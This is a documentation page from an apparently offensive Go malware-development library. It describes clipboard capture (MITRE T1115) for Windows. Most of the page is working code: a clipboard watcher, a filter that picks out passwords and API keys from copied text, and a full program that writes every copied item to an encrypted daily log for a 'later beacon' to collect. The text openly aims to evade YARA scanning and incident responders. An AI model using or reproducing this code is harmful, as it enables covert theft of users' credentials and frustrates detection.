

# Clipboard Capture

[<- Back to Collection Overview](README.md)

**MITRE ATT&CK:** [T1115 - Clipboard Data](https://attack.mitre.org/techniques/T1115/)
**Package:** `collection/clipboard`
**Platform:** Windows
**Detection:** Medium

---

## Primer

Users frequently copy passwords, credentials, and sensitive data to the clipboard. This technique reads clipboard text on demand or monitors it for changes, capturing everything the user copies.

---

## How It Works



---

## Usage

```go
import "github.com/oioio-space/maldev/collection/clipboard"

// One-shot read
text, err := clipboard.ReadText()

// Continuous monitoring
for content := range clipboard.Watch(ctx, 500*time.Millisecond) {
    fmt.Println("Copied:", content)
}
```

---

## Advanced — Credential-Focused Filtering

`Watch` emits every clipboard change. In practice only a small fraction of
copies are interesting. Wrapping the channel in a filter reduces noise and
limits the on-disk footprint.

```go
import (
    "context"
    "strings"
    "time"
    "unicode"

    "github.com/oioio-space/maldev/collection/clipboard"
)

// looksLikeCredential heuristic — catches passwords, API keys, hashes.
func looksLikeCredential(s string) bool {
    if len(s) < 8 || len(s) > 512 {
        return false
    }
    hasDigit, hasUpper, hasSpecial := false, false, false
    for _, r := range s {
        switch {
        case unicode.IsDigit(r):
            hasDigit = true
        case unicode.IsUpper(r):
            hasUpper = true
        case !unicode.IsLetter(r) && !unicode.IsDigit(r):
            hasSpecial = true
        }
    }
    return (hasDigit && hasUpper) || hasSpecial ||
        strings.ContainsAny(s, "@:$%#") // email, URL-style credential
}

func collectCredentials(ctx context.Context) <-chan string {
    out := make(chan string)
    go func() {
        defer close(out)
        for text := range clipboard.Watch(ctx, 300*time.Millisecond) {
            if looksLikeCredential(text) {
                out <- text
            }
        }
    }()
    return out
}
```

---

## Combined Example

Watch the clipboard for new text, encrypt each entry with AES-GCM before it
ever touches a file, and stash the ciphertext in a per-day log that a later
beacon can pick up — credentials never appear in plaintext on disk.

```go
package main

import (
	"context"
	"fmt"
	"log"
	"os"
	"time"

	"github.com/oioio-space/maldev/collection/clipboard"
	"github.com/oioio-space/maldev/crypto"
)

func main() {
	key, err := crypto.NewAESKey()
	if err != nil {
		log.Fatal(err)
	}

	// Per-day log — rotate automatically, limits blast radius per file.
	logPath := fmt.Sprintf("clip-%s.bin", time.Now().Format("2006-01-02"))
	f, err := os.OpenFile(logPath, os.O_APPEND|os.O_CREATE|os.O_WRONLY, 0o600)
	if err != nil {
		log.Fatal(err)
	}
	defer f.Close()

	for text := range clipboard.Watch(context.Background(), 500*time.Millisecond) {
		blob, _ := crypto.EncryptAESGCM(key, []byte(text))
		_, _ = f.Write(blob)
	}
}
```

Layered benefit: clipboard monitoring catches credentials in transit (password managers, browsers, terminals all copy-paste through the same channel), AES-GCM encryption means the on-disk artifact is opaque to YARA/string-matching, and per-day rotation limits what an incident responder recovers from a single artefact.

---

## API Reference

```go
// ErrOpen fires when OpenClipboard returns 0 (typically because
// another process holds the clipboard at that instant). Callers
// usually retry on a short backoff.
var ErrOpen = errors.New("clipboard open failed")

// ReadText returns the current clipboard text as UTF-8 (CF_UNICODETEXT
// → UTF-16LE → Go string). Returns ErrOpen if the clipboard is locked.
func ReadText() (string, error)

// Watch polls the clipboard every pollInterval and emits each new
// distinct text value on the returned channel. Closes the channel
// when ctx is canceled. The first read is emitted unconditionally.
func Watch(ctx context.Context, pollInterval time.Duration) <-chan string
```

See also [collection.md](../../collection.md#collectionclipboard----clipboard-monitoring) for the package summary row.
